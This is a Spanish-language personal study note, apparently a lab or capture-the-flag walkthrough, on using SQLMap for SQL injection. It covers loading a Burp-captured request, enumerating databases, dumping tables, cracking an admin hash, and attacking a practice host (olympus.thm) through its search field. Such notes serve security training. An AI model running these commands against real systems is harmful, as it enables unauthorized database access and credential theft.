 SQLMap es una herramienta de prueba de penetración de código abierto que automatiza el proceso de detección y explotación de vulnerabilidades de inyección SQL. SQLMap funciona enviando solicitudes especialmente diseñadas a un servidor web para intentar inyectar código SQL malicioso. Si el servidor es vulnerable a la inyección SQL, SQLMap puede explotar la vulnerabilidad para obtener acceso no autorizado a la base de datos del servidor.

# Carga SQLMap desde archivo
Vamos a realizar un ataque de SQLInjection de forma manual con la herramienta de sqlmap, para ello primero interceptamos la peticion de la solicitud con BurpSuit
![[Pasted image 20240528075116.png]]

Lo agregamos a un documento de texto
![[Pasted image 20240528075141.png]]

Ahora ejecutamos la herramienta de sqlmap
```Bash
sqlmap -r peticion.txt
```
![[Pasted image 20240528075234.png]]

En la siguiente imagen podemos ver que nos ha encontrado la base de datos de MySQL, le indicaremos que yes para que no siga buscando mas BBDD y trabajemos con la que nos ha encontrado
![[Pasted image 20240528075419.png]]

La siguiente pregunta es para decirnos si queremos que siga buscando mas paneles, nosotros seguiremos en el mismo panel de login así que indicaremos que no
![[Pasted image 20240528075536.png]]

En esta pregunta nos esta indicando si queremos que siga buscando mas vulnerabilidades, como ya nos ha encontrado una le diremos que no
![[Pasted image 20240528075656.png]]

Ahora volveremos a ejecutar sqlmap añadiendo el siguiente parametro para que nos muestre las bases de datos
```Bash
sqlmap -r peticion.txt -dbs
```
![[Pasted image 20240528075823.png]]

Ahora como podemos ver nos muestra las bases de datos que ha encontrado
![[Pasted image 20240528075915.png]]

Ahora volveremos a ejecutar sqlmap añadiendo los siguientes parametros para indicar la base de datos y para realizar un dumpeo
```Bash
sqlmap -r peticion.txt -D main -dump
```
![[Pasted image 20240528080100.png]]

Ahora responderemos a las preguntas que aparecen y ya comenzara a realizar el ataque de diccionario para encontrar los hashes
![[Pasted image 20240528080238.png]]

Y como podemos ver ya nos ha encontrado el hash del usuario admin
![[Pasted image 20240528080324.png]]

Ahora utilizaremos una herramienta como John de Ripper para descifrar el hash
![[Pasted image 20240528080430.png]]

# Carga SQLMap desde url
Esta vulnerabilidad indica que podemos hacer una injección de SQL mediante la explotación del campo search de la siguiente url
```
http://olympus.thm/~webmaster/search.php
```

Ejecutamos el siguiente comando con la herramienta sqlmap y encontramos que es vulnerable a la injección de sql
```Bash
sqlmap "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3
```
![[Pasted image 20240611135709.png]]

Ahora ejecutamos el sigueinte comando para enumerar la base de datos
```Bash
sqlmap "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --tables --random-agent -v 3
```
![[Pasted image 20240611140217.png]]

Despues de continuar con la explotación y encontrar una subida de archivos a la base de datos

La buscamos para ver como lo ha guardado en la base de datos volviendo a ejecutar la injeccion de sql con sqlmap agregando el parametro fresh-queries para refrescar los resultados y como podemos ver se ha subido lo que hemos cargado
```Bash
sqlmap "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --dump-all --random-agent -v 3 --fresh-queries

```
![[Pasted image 20240612081758.png]]
